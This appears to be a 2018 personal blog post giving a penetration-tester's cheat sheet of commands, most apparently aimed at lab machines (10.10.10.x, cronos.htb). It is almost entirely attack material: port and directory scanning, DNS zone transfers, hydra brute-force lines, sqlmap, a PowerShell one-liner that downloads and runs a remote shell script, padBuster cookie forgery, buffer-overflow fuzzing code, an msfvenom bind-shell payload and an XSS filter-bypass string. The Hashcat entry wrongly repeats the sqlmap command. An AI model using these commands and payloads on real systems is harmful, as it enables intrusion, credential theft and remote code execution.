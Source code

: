 ```yaml
---
layout: post
title: Cheat Sheet
img: "assets/img/portfolio/cheatsheet.png"
date: September, 09 2018
tags: [masscan, netdiscover, nmap, nikto, dirsearch, gobuster, dirb, wfuzz, dig, host, dnsrecon, hydra, sqlmap, hashcat, powershell, metasploit, netstat, lsof, buffer overflow, fuzzing, msfvenom, vim, xss]
---
```


General Cheat Sheet of often used commands

# Enumeration


### Masscan (local) :

masscan -p1-65534 -rate=10000 -oG name.masscan 10.10.10.10


### Netdiscover :

netdiscover -i eth0



### Nmap :

nmap -A -p- -T4 -oA nmap/[name].xml 10.10.10.10
nmap --script=vuln -T4 -oA nmap/[name].xml 10.10.10.10
nmap -sC -sV

xsltproc *.xml -o *.html


### Nikto :

nikto -host 10.10.10.10[:8080] -output nikto.[name].txt


### DirSearch :

/opt/dirsearch/dirsearch.py -u http://10.10.10.10 -e asp,aspx,bat,c,cfm,cgi,com,dll,exe,htm,html,inc,jhtml,jsa,jsp,log,mdb,nsf,php,phtml,pl,reg,sh,shtml,sql,txt,xml,/,js -x 403,400 --json-report=[/path/]dirsearch.json

### Gobuster :

/opt/gobuster/gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.10 -o [name].log -t 25 [-k] [add / option] [-c (cat cookie.txt)]


### Dirb :

dirb http://10.10.10.10[:8080] -o dirb.[name].txt


### Wfuzz :

wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/megabeast.txt --hc 404,200 http://[ip:port]/FUZZ [ -b ‘cookie=value’ ] [ -w /usr/share/wordlist ]


# DNS


### Dig :

dig axfr @10.10.10.13 cronos.htb

### host :

host -t ns cronos.htb
host -t mx cronos.htb

### dnsrecon :

dnsrecon -d cronos.htb -t axfr


# Brute Force

### Hydra :

#### ssh :
hydra -L login.txt -P pass.txt [ -c file (user:pass format) ] ssh://10.10.10.10[:port]

#### http-form-post :
hydra [ip] -s [port] http-form-post "/index.php:password=^PASS^:F=Invalid\ password\!" -P [wordlist] -l '' {in this case no username -l ‘’} -t 10 -I

#### http-form-get :

#### smb :
hydra -l cristal -x 4:4:a 192.168.2.46 smb


### Sqlmap :
 sqlmap -r admin.cronos.req --level 5 --risk 3 --threads 10


### Hashcat :
 sqlmap -r admin.cronos.req --level 5 --risk 3 --threads 10



# Windows

### PowerShell :

#### use file from the internet :
IEX(New-Object Net.WebClient).downloadString(‘http://10.10.10.10:8080/shell.ps1’)

#### Privesc - MetaSploit :

search suggest
post/multi/recon/local_exploit_suggester
set SESSION 1
(powerup ?)

## Shell :

#### magic unicorn
https://www.youtube.com/watch?v=e9lVyFH7-4o


Database

Cookie :

padBuster :

perl padBuster.pl http://10.10.10.10/index.php uBIcLBJyjARxQ7ooer8gpdI4sSUCfulk 8 auth=uBIcLBJyjARxQ7ooer8gpdI4sSUCfulk -plaintext user=admin



Monitoring

Network :

netstat :

watch "netstat -an | grep 4001"

lsof :

watch "lsof -i 4001"


Buffer Overflow

Fuzzing :

#!/usr/bin/env python

import socket
import time

target_host = "127.0.0.1"
target_port = 4030

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((target_host, target_port))

for i in range(1,2000) :

    fuzz = "A" * i
    client.send(fuzz)
    response = client.recv(4096)

    print i
#    client.send("x\n")
#    response = client.recv(4096)

    time.sleep(0.1)

client.send("x\n")
response = client.recv(4096)

print response


Bad Characters :

#!/usr/bin/env python

shellcode = ''
for i in range(1,256):
    shellcode += chr(i)

print shellcode


Format String :

Shows 20 dwords from the stack :

for(( i=1; i < 20; i++)); do echo -n "$i " && ./fs "%$i\$x"; done

Use “%s” to retrieve strings instead :

for(( i=1; i < 20; i++)); do echo -n "$i " && ./fs "%$i\$s"; done


MSFVenom :

msfvenom -p linux/x86/shell_bind_tcp -b '\x00\x09\x10\x13' LPORT=4450 -f python






Unclassified

JS Prompt :

Filters bypass

<svg%0Ao%00nload=%09((pro\u006dpt))()//


Vim :

record macro :
q<letter><commands>q

execute macro :
<number>@<letter>

re execute macro :
@@

global switch :
:%s/item1/item2/g
